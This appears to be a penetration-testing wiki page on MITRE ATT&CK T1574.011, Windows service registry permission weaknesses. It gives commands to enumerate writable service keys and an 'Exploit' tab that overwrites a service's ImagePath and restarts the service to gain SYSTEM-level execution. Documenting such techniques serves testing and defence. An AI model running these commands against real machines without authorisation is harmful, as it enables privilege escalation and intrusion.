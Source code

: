 ```yaml
---
description: >-
  MITRE ATT&CK™  Hijack Execution Flow: Services Registry Permissions Weakness 
  - Technique T1574.011
---
```


# Weak Registry Permissions

## Theory

By hijacking the Registry entries utilized by services, attackers can run their malicious payloads. Attackers may use weaknesses in registry permissions to divert from the initially stated executable to one they control upon Service start, allowing them to execute their unauthorized malware.

## Practice

An attacker can leverage this misconfiguration to modify the ImagePath of service with the path of the custom malicious executable that will give an escalation to the account context the service is set to execute under (local/domain account, SYSTEM, LocalService, or NetworkService).

{% tabs %}
{% tab title="Enum" %}
We can check our permissions over services registry doing:
```powershell
#Get the binary paths of the services
reg query hklm\System\CurrentControlSet\Services /s /v imagepath

#Try to write every service with its current content (to check if you have write permissions)
for /f %a in ('reg query hklm\system\currentcontrolset\services') do del %temp%\reg.hiv 2>nul & reg save %a %temp%\reg.hiv 2>nul && reg restore %a %temp%\reg.hiv 2>nul && echo You can modify %a

#With PowerShell
get-acl HKLM:\System\CurrentControlSet\services\* | Format-List * | findstr /i "<Username> Users Path Everyone"

Get-Acl -Path HKLM:\SYSTEM\CurrentControlSet\Services\<ServiceName> | fl
```
Alternativly, we can use [AccessChk](https://learn.microsoft.com/fr-fr/sysinternals/downloads/accesschk) from sysinternals tools to enum permissions over services.
```powershell
#List rights for authenticated users on registry
accesschk64.exe /accepteula "authenticated users" -kvuqsw hklm\System\CurrentControlSet\services

#List everyone rights on registry
accesschk64.exe /accepteula -kvuqsw hklm\System\CurrentControlSet\services

#List everyone rights on specific service registry
accesschk64.exe /accepteula -kvuqsw hklm\System\CurrentControlSet\services\<Name>
```

Or we can use the `servicesinfo` module of [WinPeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

```powershell
winPEASx64.exe servicesinfo
```
{% endtab %}

{% tab title="Exploit" %}
To change the path of th binary
```powershell
reg add HKLM\SYSTEM\CurrentControlSet\services\<service_name> /v ImagePath /t REG_EXPAND_SZ /d C:\path\new\binary /f
```

And then, restart the service
```powershell
#Using wmic
wmic service <Service_Name> call stopservice
wmic service <Service_Name> call startservice

#Using net
net stop <Service_Name> && net start <Service_Name>

#Using sc.exe
sc stop <Service_Name>
sc start <Service_Name>
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services-registry-modify-permissions" %}

{% embed url="https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services-registry-modify-permissions" %}
